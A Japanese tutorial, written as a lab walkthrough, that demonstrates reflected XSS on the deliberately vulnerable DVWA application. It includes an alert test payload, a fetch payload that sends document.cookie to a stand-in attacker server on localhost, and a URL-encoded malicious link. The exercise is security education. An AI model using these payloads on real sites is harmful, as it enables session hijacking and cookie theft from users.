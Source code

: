 【脆弱性】XSS攻撃を実際にやってみたら、Cookieがダダ漏れに…！


# 概要

前回、以下の記事でSQLインジェクションを実際にやってみましたが、その他の有名な脆弱性として **XSS(クロスサイトスクリプティング)** があります。今回はDVWA（Damn Vulnerable Web Application）を使用してXSSを実践して理解を深めてみます。

https://qiita.com/shota0616/items/ef7125bcf5c2721c34b0

※DVWAの構築方法についても上記の記事で説明していますので、参考にしてみてください。

:::note warn
免責事項
DVWAはその名の通り脆弱なアプリケーションなので、サーバを侵害される可能性があります。インターネットに接続されたサーバーにアップロードしないでください。この手順を公開されているサーバで実験して侵害されたとしても一切責任は負えません。
また、この記事はあくまで脆弱性の対策を促すためのものなので、悪意を持って使用しないでください。
:::

# XSSについて

XSSは、Webサイトの脆弱性を利用して悪質なスクリプトを埋め込む攻撃手法です。XSSには主に3種類あります。

- Reflected XSS
- DOM Based XSS
- Stored XSS

## Reflected XSS

Reflected XSSはユーザが特定のリンクをクリックした際などに発生するもので、メールや他サイトを経由してユーザーに仕掛けられることが多いです。
悪意のあるスクリプトがリクエストに含まれ、それがサーバーのレスポンスに反映されてブラウザ上で実行されます。

### 攻撃手順

まずDVWAで`XSS (Reflected)`のメニューを開きます。

![スクリーンショット 2025-05-31 16.04.18.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2620245/ccf4c0f5-f9af-4a61-95ef-0f8c1523b113.png)

ここで、What's your name?と聞かれているフォームにスクリプトを埋め込んでみます。
とりあえず以下のスクリプトを入力してalertが出てくるか確認してみましょう
```html
<script>alert('Reflected XSS')</script>
```
![スクリーンショット 2025-05-31 16.08.02.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2620245/768ba4a0-3e7d-48ff-a9f5-56fba04b3af0.png)

すると上記のようにスクリプトが実行できてしまいました。
<font color="red">これを悪用すると、cookieに保存している内容を攻撃者に送信することができてしまいます。</font>

ということで、攻撃者が情報を受け取る方法は色々あるとは思いますが、今回はwebサーバで受け取ってみようと思います。（検証のためローカルにnginxを立てる）
http://localhost:8080

cookieの内容を含んで攻撃者が立てたwebサーバにアクセスさせれば良いので、以下のようなスクリプトを含んだリンクを踏ませることができれば情報を抜き取ることができてしまいます。
```html
<script>fetch("http://localhost:8080/?" + document.cookie);</script>
```
↓ 上記のスクリプトを含んだリンク
**http://127.0.0.1:4280/vulnerabilities/xss_r/?name=%3Cscript%3Efetch%28%22http%3A%2F%2Flocalhost%3A8080%2F%3F%22+%2B+document.cookie%29%3B%3C%2Fscript%3E#**
